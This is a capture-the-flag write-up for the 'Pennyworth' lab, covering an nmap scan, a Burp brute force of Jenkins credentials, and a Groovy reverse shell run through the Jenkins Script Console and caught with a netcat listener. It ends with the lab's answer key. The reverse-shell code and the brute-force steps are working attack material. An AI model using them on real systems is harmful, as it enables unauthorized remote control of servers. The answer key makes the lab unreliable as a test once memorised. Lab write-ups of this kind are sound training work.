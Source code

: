 # Pennyworth      

![Pennyworth](./Screenshots/pennylogo.png)

## Solution

### Scan with nmap

Type:

```
nmap -sC -sV {target ip} -v
```

![nmap](./Screenshots/pennynmap.png)

Only `http` service is running. Port `8080/tcp`.

After pasting `http://{target ip}:8080/` into the browser we can see website.

![web](./Screenshots/pennyweb.png)

### Burpsuite

Before trying `SQL Injection` or some other attacks, let's try to brute force credentials first.

Intercept the request.

![Burpsuite](./Screenshots/pennyburp.png)

![Burpsuite](./Screenshots/pennyburp2.png)

Send it to `Intruder` using `Ctrl + I` combination.

Mark `test` after password and click `Add §` icon.

To save your time, let's start enumerating with `root` as `username`.

![Burpsuite](./Screenshots/pennyburp3.png)

Go to `Payloads` section and in `Payload settings` load payload which you want to use.

![Burpsuite](./Screenshots/pennyburp4.png)

If all of the above is done press `Start attack`.

![Burpsuite](./Screenshots/pennyburp5.png)

We can see that the password is `password`.

So our credentials are:

```
root:password
```

Try to log in.

![login](./Screenshots/pennylogin.png)

We are in `Administrator` pannel.

![login](./Screenshots/pennylogin2.png)

In `Manage Jenkins` section there is `Script Console`.

![login](./Screenshots/pennylogin3.png)

`Jenkins Script Console` is a powerful feature in `Jenkins`, which is a popular open-source automation server used for continuous integration and continuous delivery (CI/CD). The `Script Console` allows administrators to execute Groovy scripts directly within the `Jenkins` environment. This feature provides a way to automate and manage `Jenkins` instances programmatically. Using the `Script Console`, administrators can perform complex automation tasks and administrative actions by leveraging Groovy, a scripting language that is similar to Java but more concise and flexible. The scripts have direct access to the Jenkins API, allowing interaction with all aspects of the `Jenkins` server, such as job configurations, build triggers, and system settings. Commands entered into the `Script Console` are executed in real-time, making it a powerful tool for immediate changes and troubleshooting.

Given our access to this, we can try to execute a command that will give us a `reverse shell` back to our local machine.

### Reverse Shell and Netcat 

A `reverse shell` is a method used by attackers to gain remote access to a target machine. In this setup, the target machine initiates a connection back to the attacker's machine, which is listening for incoming connections. This allows the attacker to execute commands on the target machine remotely. `Reverse shells` are often used to bypass firewalls and security measures, as many networks allow outgoing connections, making it easier for the attacker to establish a connection without being blocked. This technique is commonly employed in hacking and penetration testing to control compromised systems.

To create `reverse shell` I almost always use this site: https://www.revshells.com/

To do this, we need `ip address` of our `tun0` interface as we are connected through VPN.

Type:

```
ip a | grep tun0
```

![revshell](./Screenshots/pennync.png)

If you have it, paste the `ip address` in the `ip` box and the port number you have selected in the `Port` box.

![revshell](./Screenshots/pennync2.png)

It should look like this:

```
String host="{your tun0 ip}";int port={port of your choice};String cmd="sh";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

Payload is ready.

Now it's time to start our `netcat` listener.

Type:

```
nc -lvnp {port you have chosen}
```

and press `Enter`

`-l` - Tells netcat to listen for an incoming connection rather than initiating an outbound connection.

`-v` - Enables verbose mode, which provides detailed output about the connection process, making it easier to debug.

`-n` - Prevents DNS lookup, allowing netcat to use numeric IP addresses and port numbers directly, which speeds up the connection process.

`-p` - Specifies the port number on which netcat should listen for incoming connections.

Finally, we can execute our reverse shell command.

![revshell](./Screenshots/pennync3.png)

Paste it into ` Script Console` and press `Run`.

Now we can go back to our `netcat` listener. We should successfully connect.

![revshell](./Screenshots/pennync4.png)

### Get the flag

Flag must be somewhere there.

![flag](./Screenshots/pennyflag.png)

### Paste the flag

![pwned](./Screenshots/pennypwned.png)

## Answers

### Task-1: What does the acronym CVE stand for?

Common Vulnerabilities and Exposures

### Task-2: What do the three letters in CIA, referring to the CIA triad in cybersecurity, stand for?

confidentiality, integrity, availability

### Task-3: What is the version of the service running on port 8080?

Jetty 9.4.39.v20210325

### Task-4: What version of Jenkins is running on the target?

2.289.1

### Task-5: What type of script is accepted as input on the Jenkins Script Console?

Groovy

### Task-6: What would the "String cmd" variable from the Groovy Script snippet be equal to if the Target VM was running Windows?

cmd.exe

### Task-7: What is a different command than "ip a" we could use to display our network interfaces' information on Linux?

ifconfig

### Task-8: What switch should we use with netcat for it to use UDP transport mode?

-u

### Task-9: What is the term used to describe making a target host initiate a connection back to the attacker host?

reverse shell

### Submit root flag

GG.